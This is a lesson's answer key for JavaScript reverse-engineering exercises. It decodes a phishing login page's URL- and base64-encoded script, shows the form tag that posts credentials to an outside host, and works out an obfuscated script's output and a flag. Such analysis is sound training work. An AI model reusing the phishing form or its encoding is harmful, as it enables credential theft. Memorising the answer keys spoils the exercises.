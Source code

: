 # Solutions
This document contains the solutions for the practice problems in this lesson.

# JavaScript
## FakeLoginExample.html
**Objective: Find the URL to which credentials are being exfiltrated.**

By first opening the file, we see that the text is encoded.The frequent `%` signs indicate that this is URL encoded. You can decode the text using the URL decode feature on [CyberChef](https://gchq.github.io/CyberChef). 

After decoding the string, we get a complete HTML framework that has CSS and JS included. The CSS and HTML can be ignored. Usually credentials are exfiltrated through a user input or form which occurs in Javascript. 

Look for JavaScript in the decoded string. There is a script tag in the code:
```javascript
    <script>
      var tag = document.getElementById('tag')
      tag.innerHTML = atob("PGZvcm0gUE9TVD0iaHR0cDovL2FubmFsYW5lcy5jb20vZmlsZXRoaXNhd2F5L3R4dC50eHQiPg==")
    </script>
```

The atob() function is another version of encoding-- Base64. We can use CyberChef to decode the string, which in this case becomes 
```html
<form POST="http://annalanes.com/filethisaway/txt.txt">
```

This code indicates that when the form in the HTML is submitted, the information is sent to the URL `http://annalanes.com/filethisaway/txt.txt`

**Answer: The credentials are exfiltrated to http[:]//annalanes[.]com/filethisaway/txt.txt (not a real website!)**

## reverseJavaScriptExample.js
**Goal: Figure out what line 33 will print out**
```javascript
console['log'](myFunction(0x14, 0xa));
```

First put the entire javascript code into [beautifier.io](https://beautifier.io/). It won't do too much. One of the key tips for reverse engineering is to check outputs, strings, and function calls.

Output: the console.log statement on line 33

Strings: The only strings related to the output are the variables passed into the function `myFunction`, which are `0x14` and `0xa`. These are hexadecimal characters which represent the decimal numbers `20` and `10`, respectively.

Function calls: Let's now analyze the function `myFunction`

```javascript
function myFunction(_0xa4d92a, _0x45c33b) {
  return _0xa4d92a * _0x45c33b;
}
```

We see that this function simply returns the product of the two variables passed into the function. So, the console.log just prints the product of the two numbers passed into it. Since `20` and `10` were passed into the function, the output should be `200`.

The rest of the code was simply added as an obfuscation technique and does nothing. By running the code on [jsconsole](https://jsconsole.com/), you can see that the output is indeed 200.

**Answer: The console will output 200.**

## reverseJavascriptPractice.js
** Goal: find the flag. (The flag format will match the regex `.*{.*}`)**

First put the entire javascript code into [beautifier.io](https://beautifier.io/). It will format it to be a little nicer. One of the key tips for reverse engineering is to check outputs. If you look at the bottom of the beautified JS, you will see:
```javascript
const item = ['a', 'n', 'n', 'a', ':', '!', ')', '{', 'x', 'o', 'y', 'g', 's', 's', 'p', 'p', 'g', 'r', 'l', '}'];
for (let i = 0x0; i < item[_0x361ee1(0x173)]; i++) {
    item[i] !== 'p' && i % 0x5 != 0x0 && console[_0x361ee1(0x16b)](item[i]);
}
```

This is the output statement since we see it has a print console statement. The print console statement conditionals will print any letter in the *item* array that is not equal to 'p' or any item in the array that is not at an indice that is a multiple of 5. If you iterate through the array one by one, you will see that the console will output `nna:){xogssgrl}`

**Answer: the flag is `nna:){xogssgrl}`**